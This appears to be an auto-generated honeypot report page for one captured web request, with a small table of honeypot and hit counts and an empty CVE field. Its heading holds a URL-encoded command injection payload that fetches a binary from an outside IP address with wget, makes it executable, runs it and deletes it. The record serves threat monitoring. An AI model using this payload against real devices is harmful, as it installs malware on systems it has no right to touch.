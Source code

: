 # Analysis for /shell&cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F195.133.40.24%2FS1eJ3%2FIObeENwjarm%20-O%20IObeENwjarm%3B%20chmod%20755%20IObeENwjarm%3B%20.%2FIObeENwjarm%3B%20rm%20-f%20IObeENwjarm
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 5 | 6 | | 220110-033754 |

## CVE: 